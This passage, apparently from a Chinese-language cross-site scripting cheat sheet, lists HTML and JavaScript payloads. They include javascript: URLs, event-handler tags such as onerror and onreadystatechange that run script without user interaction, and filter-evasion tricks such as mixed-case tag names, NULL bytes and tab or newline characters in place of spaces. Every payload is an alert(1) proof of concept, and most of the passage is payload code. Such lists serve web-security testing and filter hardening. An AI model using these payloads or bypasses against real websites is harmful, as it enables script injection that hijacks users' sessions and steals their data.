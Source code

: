 这时，受控制的字符插入到一个``标签的`href`属性中。

这个属性可能包含一个使用`javascript:`协议的URL，利用：

```javascript
javascript:alert(1);
```

#### 脚本标签

**事件处理器**

有大量事件处理器可与各种标签结合使用，用于执行脚本。

一些示例，可在不需要任何用户交互的情况下执行脚本：

```javascript
<style onreadystatechange=alert(1)></style>
<iframe onreadystatechange=alert(1)></iframe>
<object onerror=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<body onbeforeactivate=alert(1)></body>
<video src=1 onerror=alert(1)></video>
<audio src=1 onerror=alert(1)>
```

**脚本伪协议**

脚本伪协议可用在任何位置，以在需要URL的属性中执行行内脚本。

```javascript
<object data=javascript:alert(1)></object>
<iframe src=javascript:alert(1)></iframe>
<event-source src=javascript:alert(1)></event-source>
```

#### 避开过滤:HTML

**标签名称**

改变字符大小写

```javascript
<iMg onerror=alert(1) src=a>
```

插入NULL字节

```javascript
<[%00]img onerror=alert(1) src=a>
```

标签名称后的空格

一些可用于替代空格的字符

```javascript
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
```
